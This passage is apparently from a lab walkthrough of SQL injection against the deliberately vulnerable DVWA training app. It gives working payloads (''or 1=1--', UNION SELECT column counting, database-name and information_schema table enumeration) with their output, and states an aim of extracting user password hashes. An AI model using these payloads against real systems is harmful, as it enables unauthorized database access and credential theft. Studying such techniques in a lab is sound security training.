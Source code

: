 ```

Surname: Me

ID: 'or 1=1-- 

First name: Pablo

Surname: Picasso

ID: 'or 1=1-- 

First name: Bob

Surname: Smith
```

The *id* parameter is vulnerable, as expected. From here we can proceed in different ways, fingerprinting the host, retrieving more information, etc. I will settle for getting the password hashes for the users we have discovered.

**Discover the number of colums**

`‘union select 1,2— `

```
ID: 'union select 1,2-- 

First name: 1

Surname: 2
```

**Get database name**

`‘union select database(),2— `

```
ID: 'union select database(),2-- 

First name: dvwa

Surname: 2
```

**Get table names for the current database**

`‘union select table_name,2 from information_schema.tables where table_schema=database()— `

```
ID: 'union select table_name,2 from information_schema.tables where table_schema=database()-- 

First name: guestbook

Surname: 2

ID: 'union select table_name,2 from information_schema.tables where table_schema=database()-- 

First name: users

Surname: 2
```

